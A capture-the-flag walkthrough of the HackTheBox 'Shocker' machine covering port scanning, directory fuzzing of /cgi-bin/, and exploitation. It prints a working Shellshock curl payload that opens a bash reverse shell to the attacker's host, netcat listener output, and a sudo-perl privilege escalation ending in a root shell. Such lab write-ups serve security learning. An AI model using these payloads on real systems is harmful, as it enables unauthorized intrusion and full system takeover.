


# HackTheBox Shocker

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.56

[+] Openning ports: 80,2222

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.56 -p80,2222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 23:48 +07
Nmap scan report for 10.10.10.56
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

### Apache httpd 2.4.18

It is so funny at the home page, but don't have value info here.



List of the hidden in the server with wfuzz.

```
┌──(Hades㉿10.10.14.5)-[2.4:26.0]~
└─$ wfuzz -z file,/usr/share/dirb/wordlists/common.txt --hc 404 'http://10.10.10.56/FUZZ'
<snip>
000000820:   403        11 L     32 W       294 Ch      "cgi-bin/"
000002020:   200        9 L      13 W       137 Ch      "index.html"
000003588:   403        11 L     32 W       299 Ch      "server-status"
```

There are uri `/cgi-bin/` may have more hidden content and will be exploit with shellshock vulnerability.

```
┌──(Hades㉿10.10.14.5)-[4.9:27.2]~
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html -b 403,404 -q
/user.sh              (Status: 200) [Size: 118]
```

I found uri `user.sh` in directory `cgi-bin`.

```
┌──(Hades㉿10.10.14.5)-[4.9:26.2]~
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 13:55:03 up  1:11,  0 users,  load average: 0.00, 0.00, 0.00

```

## Foothold

### Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/shocker)

Shellshock CVE-2014-6271 [Poc here](https://github.com/mubix/shellshocker-pocs).

`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

Execute shelshock payload in the server using curl.

```
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[3.4:26.2]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Sudo group

Checking with `sudo -l`, I know that command `/usr/bin/perl` can run as root without require password.

```
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Create file reverse shell `rev.pl` and execute it using `sudo /usr/bin/perl`.

```
shelly@Shocker:/tmp$ cat rev.pl | sudo /usr/bin/perl
```

At listener I have root shell.

```
┌──(Hades㉿10.10.14.5)-[3.5:25.3]~/scripting/priescal
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41492
# id
uid=0(root) gid=0(root) groups=0(root)
```